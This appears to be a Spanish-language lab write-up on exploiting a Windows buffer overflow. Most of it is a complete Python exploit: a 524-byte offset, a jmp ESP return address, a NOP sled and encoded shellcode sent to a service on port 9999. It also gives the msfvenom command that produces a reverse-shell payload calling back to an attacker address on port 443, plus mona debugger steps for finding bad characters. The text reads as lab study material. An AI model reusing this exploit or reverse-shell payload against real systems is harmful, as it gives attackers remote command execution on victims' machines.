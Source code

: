 - **Script Python**

```python
#!/usr/bin/python3

import socket
from struct import pack

offset = 524
before_eip = b"A" * offset
eip = pack("<I", 0x311712f3) # jmp ESP

shellcode = (b"\xda\xcf\xd9\x74\x24\xf4\xba\xca\x98\x76\x4c\x5b\x2b\xc9"
b"\xb1\x52\x31\x53\x17\x03\x53\x17\x83\x21\x64\x94\xb9\x49"
b"\x7d\xdb\x42\xb1\x7e\xbc\xcb\x54\x4f\xfc\xa8\x1d\xe0\xcc"
b"\xbb\x73\x0d\xa6\xee\x67\x86\xca\x26\x88\x2f\x60\x11\xa7"
b"\xb0\xd9\x61\xa6\x32\x20\xb6\x08\x0a\xeb\xcb\x49\x4b\x16"
b"\x21\x1b\x04\x5c\x94\x8b\x21\x28\x25\x20\x79\xbc\x2d\xd5"
b"\xca\xbf\x1c\x48\x40\xe6\xbe\x6b\x85\x92\xf6\x73\xca\x9f"
b"\x41\x08\x38\x6b\x50\xd8\x70\x94\xff\x25\xbd\x67\x01\x62"
b"\x7a\x98\x74\x9a\x78\x25\x8f\x59\x02\xf1\x1a\x79\xa4\x72"
b"\xbc\xa5\x54\x56\x5b\x2e\x5a\x13\x2f\x68\x7f\xa2\xfc\x03"
b"\x7b\x2f\x03\xc3\x0d\x6b\x20\xc7\x56\x2f\x49\x5e\x33\x9e"
b"\x76\x80\x9c\x7f\xd3\xcb\x31\x6b\x6e\x96\x5d\x58\x43\x28"
b"\x9e\xf6\xd4\x5b\xac\x59\x4f\xf3\x9c\x12\x49\x04\xe2\x08"
b"\x2d\x9a\x1d\xb3\x4e\xb3\xd9\xe7\x1e\xab\xc8\x87\xf4\x2b"
b"\xf4\x5d\x5a\x7b\x5a\x0e\x1b\x2b\x1a\xfe\xf3\x21\x95\x21"
b"\xe3\x4a\x7f\x4a\x8e\xb1\xe8\xb5\xe7\x8b\x22\x5d\xfa\xeb"
b"\xb7\xdc\x73\x0d\xdd\xf0\xd5\x86\x4a\x68\x7c\x5c\xea\x75"
b"\xaa\x19\x2c\xfd\x59\xde\xe3\xf6\x14\xcc\x94\xf6\x62\xae"
b"\x33\x08\x59\xc6\xd8\x9b\x06\x16\x96\x87\x90\x41\xff\x76"
b"\xe9\x07\xed\x21\x43\x35\xec\xb4\xac\xfd\x2b\x05\x32\xfc"
b"\xbe\x31\x10\xee\x06\xb9\x1c\x5a\xd7\xec\xca\x34\x91\x46"
b"\xbd\xee\x4b\x34\x17\x66\x0d\x76\xa8\xf0\x12\x53\x5e\x1c"
b"\xa2\x0a\x27\x23\x0b\xdb\xaf\x5c\x71\x7b\x4f\xb7\x31\x9b"
b"\xb2\x1d\x4c\x34\x6b\xf4\xed\x59\x8c\x23\x31\x64\x0f\xc1"
b"\xca\x93\x0f\xa0\xcf\xd8\x97\x59\xa2\x71\x72\x5d\x11\x71"
b"\x57")


payload = before_eip + eip + b"\x90"*16 + shellcode

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(("192.168.50.50", 9999))
s.send(payload)
s.close()
```

Ya tenemos el .py, vamos a probarlo contra la win7 en local. Execute .exe + Idebugger .... Ejecutamos el .py y en los resultados del IDebugger en el ESP volvemos a ver con ESP/follow in dump/.

Ahora podemos comparar este resultado con el bytearray.bin que nos creó antes. Cuando excluimos los x00.
_`!mona compare -f [rutaCompleta"bytearray.bin"] -a 0x0022F930`_ -> esta es la dirección del ESP, si no nos aparece nada en bad chars, todos los chars son corrector. 
De no serlo tenemos que volver al `!mona bytearray -cpb "\x00"` e incluimos el bad char nuevo y volvemos a repetir el proceso.
- **SHELLCode**
```shell
$> msfvenom -p windows/shell_reverse_tcp LHOST=192.168.50.202 LPORT=443 --platform windows -a x86 -e x86/shikata_ga_nai -f c -b "\x00" EXITFUNC=thread # ShellCode para la revshell
```
 Ahora podemos buscar el _jmp ESP_ con `/usr/share/metasploit-framework/tools/exploit/nasm_shell.rb` + jmp ESP vemos el opcode que ne minuscula y separado "ff e4" 
 De nuevo todo .exe + Idebugger y con:
 `!mona modules` -> vemos seguridad del binario. ASLROS Dll, etc.